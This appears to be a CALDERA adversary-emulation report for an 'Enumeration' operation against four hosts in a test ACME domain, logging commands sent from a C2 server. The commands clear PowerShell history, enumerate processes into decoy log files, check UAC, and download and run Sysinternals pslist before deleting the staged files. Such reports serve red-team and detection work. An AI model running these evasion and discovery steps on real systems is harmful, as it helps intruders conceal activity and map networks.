

Enumeration
===========

# CALDERA Operation Report

**Operation:** Enumeration **Start:** 2024-09-13T17:30:01Z **Adversary:** Enumerator
# Hosts Attacked

|Host|User|Beachhead Cmd|PID|Parent PID|IPs|C2 Server|
| :---: | :---: | :---: | :---: | :---: | :---: | :---: |
|ACME-HH-ZYQ|ACME\grantj|splunkd.exe|3872|4840|172.31.45.222|http://172.31.10.226:8888|
|ACME-HH-EUO|ACME\grantj|splunkd.exe|1052|2004|172.31.41.178|http://172.31.10.226:8888|
|ACME-WS-PLU|ACME\grantj|splunkd.exe|1116|8312|172.31.11.139, 172.25.240.1|http://172.31.10.226:8888|
|ACME-HH-ESO|ACME\grantj|splunkd.exe|8376|8992|172.31.39.111|http://172.31.10.226:8888|

# Execution Timeline

**[LINK] ACME-HH-ZYQ (kwmxux)**

**Command:** `Clear-History;Clear`

**Description:** N/A

**Technique:** Indicator Removal on Host: Clear Command History

**ATT&CK:** [T1070.003](https://attack.mitre.org/techniques/T1070/003)

**Status:** `Success`

**PID:** 2304

**Time:** 2024-09-04T03:18:40Z → 2024-09-04T03:18:40Z

**[LINK] ACME-HH-EUO (acpuoe)**

**Command:** `Clear-History;Clear`

**Description:** N/A

**Technique:** Indicator Removal on Host: Clear Command History

**ATT&CK:** [T1070.003](https://attack.mitre.org/techniques/T1070/003)

**Status:** `Success`

**PID:** 4324

**Time:** 2024-09-13T17:10:22Z → 2024-09-13T17:10:22Z

**[LINK] ACME-WS-PLU (hkrmxr)**

**Command:** `Clear-History;Clear`

**Description:** N/A

**Technique:** Indicator Removal on Host: Clear Command History

**ATT&CK:** [T1070.003](https://attack.mitre.org/techniques/T1070/003)

**Status:** `Success`

**PID:** 8504

**Time:** 2024-09-13T17:12:11Z → 2024-09-13T17:12:12Z

**[LINK] ACME-HH-ESO (nowkww)**

**Command:** `Clear-History;Clear`

**Description:** N/A

**Technique:** Indicator Removal on Host: Clear Command History

**ATT&CK:** [T1070.003](https://attack.mitre.org/techniques/T1070/003)

**Status:** `Success`

**PID:** 10164

**Time:** 2024-09-13T17:15:40Z → 2024-09-13T17:15:40Z

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `wmic process get executablepath,name,processid,parentprocessid >> $env:APPDATA\vmtools.log;cat $env:APPDATA\vmtools.log`

**Description:** Capture process id, executable path, pid and parent pid before writing to disk

**Technique:** WMIC

**ATT&CK:** [T1047](https://attack.mitre.org/techniques/T1047)

**Status:** `Success`

**PID:** 3796

**Time:** 2024-09-13T17:30:41Z → N/A

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `tasklist /m  >> $env:APPDATA\vmtool.log;cat $env:APPDATA\vmtool.log`

**Description:** Capture running processes and their loaded DLLs

**Technique:** Process Discovery

**ATT&CK:** [T1057](https://attack.mitre.org/techniques/T1057)

**Status:** `Success`

**PID:** 6220

**Time:** 2024-09-13T17:31:23Z → N/A

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `get-process >> $env:APPDATA\vmtools.log;cat $env:APPDATA\vmtools.log`

**Description:** Capture running processes via PowerShell

**Technique:** Process Discovery

**ATT&CK:** [T1057](https://attack.mitre.org/techniques/T1057)

**Status:** `Success`

**PID:** 7496

**Time:** 2024-09-13T17:32:05Z → N/A

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `echo $(get-uac)`

**Description:** Determine whether or not UAC is enabled

**Technique:** Software Discovery: Security Software Discovery

**ATT&CK:** [T1518.001](https://attack.mitre.org/techniques/T1518/001)

**Status:** `Success`

**PID:** 6276

**Time:** 2024-09-13T17:33:10Z → N/A

**[STEP] ACME-HH-ZYQ (kwmxux)**

**Command:** `$ps_url = "https://download.sysinternals.com/files/PSTools.zip";$download_folder = "C:\Users\Public\";$staging_folder = "C:\Users\Public\temp";Start-BitsTransfer -Source $ps_url -Destination $download_folder;Expand-Archive -LiteralPath $download_folder"PSTools.zip" -DestinationPath $staging_folder;iex $staging_folder"\pslist.exe" >> $env:LOCALAPPDATA\output.log;Remove-Item $download_folder"PSTools.zip";Remove-Item $staging_folder -Recurse`

**Description:** Process discovery via SysInternals pstool

**Technique:** Process Discovery

**ATT&CK:** [T1057](https://attack.mitre.org/techniques/T1057)

**Status:** `Success`

**PID:** 7556

**Time:** 2024-09-13T17:33:48Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `wmic process get executablepath,name,processid,parentprocessid >> $env:APPDATA\vmtools.log;cat $env:APPDATA\vmtools.log`

**Description:** Capture process id, executable path, pid and parent pid before writing to disk

**Technique:** WMIC

**ATT&CK:** [T1047](https://attack.mitre.org/techniques/T1047)

**Status:** `Success`

**PID:** 5192

**Time:** 2024-09-13T17:30:05Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `tasklist /m  >> $env:APPDATA\vmtool.log;cat $env:APPDATA\vmtool.log`

**Description:** Capture running processes and their loaded DLLs

**Technique:** Process Discovery

**ATT&CK:** [T1057](https://attack.mitre.org/techniques/T1057)

**Status:** `Success`

**PID:** 5976

**Time:** 2024-09-13T17:31:03Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `get-process >> $env:APPDATA\vmtools.log;cat $env:APPDATA\vmtools.log`

**Description:** Capture running processes via PowerShell

**Technique:** Process Discovery

**ATT&CK:** [T1057](https://attack.mitre.org/techniques/T1057)

**Status:** `Success`

**PID:** 4828

**Time:** 2024-09-13T17:32:00Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `echo $(get-uac)`

**Description:** Determine whether or not UAC is enabled

**Technique:** Software Discovery: Security Software Discovery

**ATT&CK:** [T1518.001](https://attack.mitre.org/techniques/T1518/001)

**Status:** `Success`

**PID:** 3640

**Time:** 2024-09-13T17:32:50Z → N/A

**[STEP] ACME-HH-EUO (acpuoe)**

**Command:** `$ps_url = "https://download.sysinternals.com/files/PSTools.zip";$download_folder = "C:\Users\Public\";$staging_folder = "C:\Users\Public\temp";Start-BitsTransfer -Source $ps_url -Destination $download_folder;Expand-Archive -LiteralPath $download_folder"PSTools.zip" -DestinationPath $staging_folder;iex $staging_folder"\pslist.exe" >> $env:LOCALAPPDATA\output.log;Remove-Item $download_folder"PSTools.zip";Remove-Item $staging_folder -Recurse`

**Description:** Process discovery via SysInternals pstool

**Technique:** Process Discovery

**ATT&CK:** [T1057](https://attack.mitre.org/techniques/T1057)

**Status:** `Success`

**PID:** 5460

**Time:** 2024-09-13T17:33:48Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `wmic process get executablepath,name,processid,parentprocessid >> $env:APPDATA\vmtools.log;cat $env:APPDATA\vmtools.log`

**Description:** Capture process id, executable path, pid and parent pid before writing to disk

**Technique:** WMIC

**ATT&CK:** [T1047](https://attack.mitre.org/techniques/T1047)

**Status:** `Success`

**PID:** 7176

**Time:** 2024-09-13T17:30:48Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `tasklist /m  >> $env:APPDATA\vmtool.log;cat $env:APPDATA\vmtool.log`

**Description:** Capture running processes and their loaded DLLs

**Technique:** Process Discovery

**ATT&CK:** [T1057](https://attack.mitre.org/techniques/T1057)

**Status:** `Success`

**PID:** 5824

**Time:** 2024-09-13T17:31:42Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `get-process >> $env:APPDATA\vmtools.log;cat $env:APPDATA\vmtools.log`

**Description:** Capture running processes via PowerShell

**Technique:** Process Discovery

**ATT&CK:** [T1057](https://attack.mitre.org/techniques/T1057)

**Status:** `Success`

**PID:** 6840

**Time:** 2024-09-13T17:32:25Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `echo $(get-uac)`

**Description:** Determine whether or not UAC is enabled

**Technique:** Software Discovery: Security Software Discovery

**ATT&CK:** [T1518.001](https://attack.mitre.org/techniques/T1518/001)

**Status:** `Success`

**PID:** 8560

**Time:** 2024-09-13T17:33:15Z → N/A

**[STEP] ACME-WS-PLU (hkrmxr)**

**Command:** `$ps_url = "https://download.sysinternals.com/files/PSTools.zip";$download_folder = "C:\Users\Public\";$staging_folder = "C:\Users\Public\temp";Start-BitsTransfer -Source $ps_url -Destination $download_folder;Expand-Archive -LiteralPath $download_folder"PSTools.zip" -DestinationPath $staging_folder;iex $staging_folder"\pslist.exe" >> $env:LOCALAPPDATA\output.log;Remove-Item $download_folder"PSTools.zip";Remove-Item $staging_folder -Recurse`

**Description:** Process discovery via SysInternals pstool

**Technique:** Process Discovery

**ATT&CK:** [T1057](https://attack.mitre.org/techniques/T1057)

**Status:** `Success`

**PID:** 4952

**Time:** 2024-09-13T17:34:04Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `wmic process get executablepath,name,processid,parentprocessid >> $env:APPDATA\vmtools.log;cat $env:APPDATA\vmtools.log`

**Description:** Capture process id, executable path, pid and parent pid before writing to disk

**Technique:** WMIC

**ATT&CK:** [T1047](https://attack.mitre.org/techniques/T1047)

**Status:** `Success`

**PID:** 9872

**Time:** 2024-09-13T17:30:48Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `tasklist /m  >> $env:APPDATA\vmtool.log;cat $env:APPDATA\vmtool.log`

**Description:** Capture running processes and their loaded DLLs

**Technique:** Process Discovery

**ATT&CK:** [T1057](https://attack.mitre.org/techniques/T1057)

**Status:** `Success`

**PID:** 3004

**Time:** 2024-09-13T17:31:34Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `get-process >> $env:APPDATA\vmtools.log;cat $env:APPDATA\vmtools.log`

**Description:** Capture running processes via PowerShell

**Technique:** Process Discovery

**ATT&CK:** [T1057](https://attack.mitre.org/techniques/T1057)

**Status:** `Success`

**PID:** 6392

**Time:** 2024-09-13T17:32:24Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `echo $(get-uac)`

**Description:** Determine whether or not UAC is enabled

**Technique:** Software Discovery: Security Software Discovery

**ATT&CK:** [T1518.001](https://attack.mitre.org/techniques/T1518/001)

**Status:** `Success`

**PID:** 6448

**Time:** 2024-09-13T17:33:22Z → N/A

**[STEP] ACME-HH-ESO (nowkww)**

**Command:** `$ps_url = "https://download.sysinternals.com/files/PSTools.zip";$download_folder = "C:\Users\Public\";$staging_folder = "C:\Users\Public\temp";Start-BitsTransfer -Source $ps_url -Destination $download_folder;Expand-Archive -LiteralPath $download_folder"PSTools.zip" -DestinationPath $staging_folder;iex $staging_folder"\pslist.exe" >> $env:LOCALAPPDATA\output.log;Remove-Item $download_folder"PSTools.zip";Remove-Item $staging_folder -Recurse`

**Description:** Process discovery via SysInternals pstool

**Technique:** Process Discovery

**ATT&CK:** [T1057](https://attack.mitre.org/techniques/T1057)

**Status:** `Success`

**PID:** 3484

**Time:** 2024-09-13T17:34:32Z → N/A

